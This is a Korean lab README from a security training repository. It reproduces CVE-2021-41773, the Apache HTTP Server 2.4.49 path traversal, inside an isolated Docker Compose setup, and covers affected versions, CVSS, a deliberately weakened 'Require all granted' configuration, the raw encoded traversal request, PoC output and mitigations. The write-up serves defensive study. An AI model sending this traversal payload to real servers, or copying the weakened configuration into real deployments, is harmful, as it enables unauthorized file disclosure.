


# CVE-2021-41773 — Apache HTTP Server 2.4.49 경로 탐색(Path Traversal) 재현

> WHS 4기 / 가상화·컨테이너 보안 실무 / GitHub: [@decmoon05](https://github.com/decmoon05)
>
> 실습 범위는 이 저장소가 만드는 **로컬 Docker Compose 격리망**으로 한정한다. PoC는 실제 비밀정보나 셸 명령 대신, 컨테이너에 포함한 무해한 marker 파일만 읽는다.

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE / CWE | [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773) / CWE-22 (경로명 제한 미흡) |
| 영향 버전 | **Apache HTTP Server 2.4.49만** 영향 |
| 공격 벡터 | 네트워크(HTTP), 인증 불필요, 사용자 상호작용 불필요 |
| 영향 | Alias-like 디렉터리를 기준으로 경로를 우회하여 공개 범위 밖 파일을 읽을 수 있다. CGI가 활성화된 별도 조건에서는 원격 코드 실행으로 이어질 수 있다. |
| 패치 | Apache HTTP Server **2.4.50**에서 수정되었으나, 그 수정은 불완전하여 2.4.51에서 CVE-2021-42013까지 함께 수정되었다. 운영 환경은 2.4.51 이상(가급적 최신 안정판)으로 업그레이드한다. |

Apache HTTP Server 2.4.49에는 URL 경로 정규화 오류가 있다. 공격자가 `.%2e`처럼 인코딩한 상위 디렉터리 표현을 Alias-like URL 아래에 넣으면, 정규화 시점의 오류로 인해 Alias 밖 파일까지 매핑할 수 있다. 단, 도달한 파일이 일반적인 기본 설정인 `Require all denied`로 차단되지 않아야 한다. Apache의 공식 보안 공지는 이 조건과 2.4.49 단일 영향 버전을 명시한다.

- 벤더 공지: [Apache HTTP Server 보안 공지 — CVE-2021-41773](https://httpd.apache.org/security/vulnerabilities_24.html#CVE-2021-41773)
- 공식 CVE 레코드: [CVE Program](https://www.cve.org/CVERecord?id=CVE-2021-41773)

### Risk Score / CVSS 근거

| CVSS v3.1 항목 | 값 | 근거 |
| --- | --- | --- |
| Attack Vector (AV) | N | HTTP 서비스가 노출되면 원격 요청으로 악용 가능 |
| Attack Complexity (AC) | L | 알려진 인코딩 경로를 한 번 요청하면 됨 |
| Privileges Required (PR) | N | 인증 없이 요청 가능 |
| User Interaction (UI) | N | 피해자 조작이 필요 없음 |
| Scope (S) | U | Apache 프로세스 권한 범위에서 영향 발생 |
| C / I / A | H / H / H | NVD는 CGI 활성화 등 후속 조건에서의 RCE 가능성까지 반영 |

- NVD CVSS v3.1: **9.8 / Critical** — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- 이 실습의 PoC는 안전을 위해 **파일 읽기만** 증명한다. CGI를 활성화하거나 셸 실행을 시도하지 않으며, 컨테이너 탈출·호스트 영향은 검증하거나 주장하지 않는다.

## 2. 환경 구성

| 서비스 | 역할 | 빌드 방식 | 버전 / 고정값 | 포트 |
| --- | --- | --- | --- | --- |
| `vuln-httpd` | 취약 대상 | 이 저장소의 [`Dockerfile`](./Dockerfile)로 직접 build | Apache HTTP Server `2.4.49`, immutable image digest 고정 | `127.0.0.1:8080 → 80` |
| `poc` | 자동 재현·검증 | 이 저장소의 [`poc.Dockerfile`](./poc.Dockerfile)로 직접 build | Python `3.12.2-alpine3.19`, immutable image digest 고정 | Compose 서비스명 `vuln-httpd`에만 요청 |

구성 파일과 PoC는 모두 저장소에 포함되어 있다. 개인 Docker Hub의 취약 이미지나 외부 LDAP/콜백 서버를 사용하지 않는다. `poc`는 `vuln-httpd`의 healthcheck 이후 실행하고, 표준 라이브러리만 사용하는 [`poc.py`](./poc.py)로 HTTP 요청을 원문 그대로 전송한다.

`Dockerfile`은 공식 `httpd:2.4.49` 베이스를 digest까지 고정하고, 취약 조건인 root `<Directory />`의 `Require all denied`를 의도적으로 `Require all granted`로 변경한다. 이 설정은 CVE 자체가 아닌 단독 취약점이 아니라, **CVE-2021-41773이 파일 노출로 이어지기 위해 공식 공지에서 요구한 조건**이다. 같은 설정에서 패치 버전은 인코딩 경로를 정상 차단한다.

## 3. 취약 조건

다음 조건을 모두 충족해야 한다.

1. Apache HTTP Server가 **2.4.49**여야 한다.
2. 요청이 Alias-like URL(`/icons/`)을 통과해야 한다. Dockerfile은 기본 `httpd.conf`에서 `httpd-autoindex.conf` include를 활성화하여 `/icons/` Alias를 명시적으로 사용한다.
3. Alias 밖에서 도달한 파일이 `Require all denied`로 차단되지 않아야 한다. 이 재현 환경은 `Dockerfile`에서 의도적으로 `Require all granted`로 바꾼다.
4. 공격 클라이언트가 `.%2e`를 `..`로 미리 정규화하지 않고 원문 그대로 전송해야 한다. 따라서 PoC는 고수준 URL 라이브러리 대신 raw socket을 사용한다.

실습 파일 [`lab-secret.txt`](./lab-secret.txt)는 `/usr/local/apache2/htdocs`와 `/icons/` Alias 밖에 놓인 무해한 검증 marker다. 성공 시 해당 marker가 HTTP 응답으로 돌아온다.

## 4. 재현 절차

### 사전 요구사항

```bash
docker --version
docker compose version
```

### 깨끗한 환경에서 한 번에 재현

아래 명령 하나가 이미지 build → 취약 서비스 기동 → PoC 실행 → 종료 코드 검증까지 수행한다.

```bash
docker compose down -v --remove-orphans
docker compose up --build --abort-on-container-exit --exit-code-from poc
```

성공 시 핵심 출력은 다음과 같다.

```text
cve-2021-41773-poc    | [+] HTTP status: HTTP/1.1 200 OK
cve-2021-41773-poc    | [+] CVE-2021-41773 reproduced successfully.
cve-2021-41773-poc    |     CVE-2021-41773-LAB-MARKER: path traversal reproduced
cve-2021-41773-poc exited with code 0
```

`poc` 컨테이너의 종료 코드가 `0`이면 재현 성공이다. Compose가 PoC 종료 후 대상 컨테이너를 멈추므로, 다음 정리 명령도 실행한다.

```bash
docker compose down -v --remove-orphans
```

### 선택: 브라우저/호스트에서 대상 확인

실습 중 서비스가 떠 있는 동안에만 호스트의 `http://127.0.0.1:8080/`으로 접속할 수 있다. 포트는 `127.0.0.1`에만 바인딩되어 외부 네트워크에 공개되지 않는다. 재현은 반드시 위의 자동 PoC로 수행한다.

## 5. PoC 코드

- 실행 파일: [`poc.py`](./poc.py)
- Compose 자동 실행 정의: [`docker-compose.yml`](./docker-compose.yml)

PoC가 전송하는 핵심 요청은 아래와 같다. `.%2e`를 포함한 경로를 socket으로 직접 보내므로 클라이언트 측 정규화가 없다.

```http
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/usr/local/apache2/lab-secret.txt HTTP/1.1
Host: vuln-httpd
Connection: close
```

성공 조건은 `HTTP/1.1 200 OK`와 marker 문자열 `CVE-2021-41773-LAB-MARKER: path traversal reproduced`가 함께 응답에 존재하는 것이다. 실패하면 `poc.py`는 0이 아닌 종료 코드로 끝나므로 Compose 명령도 실패로 표시된다.

## 6. 실행 결과

자동 PoC는 Alias 경로 밖의 marker 파일을 정상 HTTP 응답으로 읽어, 경로 탐색이 재현되었음을 검증한다. 이 marker는 이 실습을 위해 만든 문자열이며 실제 시스템의 `/etc/passwd`나 운영 비밀정보를 읽지 않는다.

### 실제 검증 기록 (2026-07-11)

캐시를 사용하지 않은 build와 Compose 자동 PoC를 다시 실행해 아래 결과를 확인했다. `poc`의 종료 코드가 `0`이고, 호스트 포트도 `127.0.0.1:8080`에만 publish된 것을 확인했다.

```text
80/tcp -> 127.0.0.1:8080
cve-2021-41773-poc | [+] HTTP status: HTTP/1.1 200 OK
cve-2021-41773-poc | [+] CVE-2021-41773 reproduced successfully.
cve-2021-41773-poc |     CVE-2021-41773-LAB-MARKER: path traversal reproduced
cve-2021-41773-poc exited with code 0
```

> 아래 이미지는 이 작업 폴더에서 `@decmoon05` 계정으로 실행한 Compose 검증 로그를 로컬 PNG로 기록한 결과다. GitHub ID, 실행 명령, `200 OK`, marker, 종료 코드 `0`이 보이며, 모든 이미지는 PR에 로컬 파일로 커밋하고 상대 경로로 참조한다.





권장 스크린샷 항목:

1. `01-compose-poc-success.png`: 터미널 프롬프트(본인 GitHub ID가 보이도록), `docker compose up --build --abort-on-container-exit --exit-code-from poc`, `200 OK`, marker, `exited with code 0`.
2. `02-cleanup.png`: `docker compose down -v --remove-orphans`와 정리된 결과.

## 7. 대응 방안

1. **업데이트:** Apache HTTP Server를 최소 2.4.51 이상, 가능하면 공급자가 지원하는 최신 안정 버전으로 업데이트한다. 2.4.50은 CVE-2021-41773의 수정이 불완전해 CVE-2021-42013의 영향을 받으므로 중간 버전으로 멈추면 안 된다.
2. **기본 거부 유지:** `/`에 대한 `Require all denied` 기본값을 유지하고, 필요한 DocumentRoot·Alias 디렉터리에만 최소 범위의 `Require all granted`를 적용한다.
3. **Alias/CGI 최소화:** 불필요한 Alias 및 CGI 모듈을 비활성화한다. 특히 CGI를 켜면 이 유형의 경로 탐색이 코드 실행으로 확대될 수 있다.
4. **노출면 축소:** 관리 포트를 사설망·방화벽 뒤에 두고, WAF/웹 로그에서 `.%2e`, 이중 인코딩 경로, `/cgi-bin/` 접근을 탐지한다. 단, 접근 통제는 패치의 대체 수단이 아니다.

## 8. 제출 전 확인

```bash
# Compose 문법 확인
docker compose config -q

# 캐시 없이 다시 build하여 검증
docker compose build --no-cache
docker compose up --abort-on-container-exit --exit-code-from poc

# 정리
docker compose down -v --remove-orphans
```

- [x] GitHub ID `@decmoon05`를 README와 증빙 이미지에 반영했다.
- [x] `screenshots/`의 PNG 2장을 로컬 파일로 넣고 상대 경로를 확인했다.
- [x] 모든 텍스트 파일이 UTF-8/LF인지 확인했다.
- [x] 포크한 `kr-vulhub`의 루트 `README.md` 목차에 다음 항목을 추가했다.

```md
- **Apache HTTP Server** — 오픈소스 웹 서버
    - [CVE-2021-41773](./Apache/CVE-2021-41773/README.md) — Apache HTTP Server 2.4.49 경로 탐색을 통한 파일 노출
        - Contributor: [@decmoon05](https://github.com/decmoon05) | Risk Score: 9.8 (Reproducibility: 95%)
```

## 출처

1. Apache HTTP Server Project, [CVE-2021-41773 보안 공지](https://httpd.apache.org/security/vulnerabilities_24.html#CVE-2021-41773)
2. NIST NVD, [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
3. CVE Program, [CVE-2021-41773 레코드](https://www.cve.org/CVERecord?id=CVE-2021-41773)
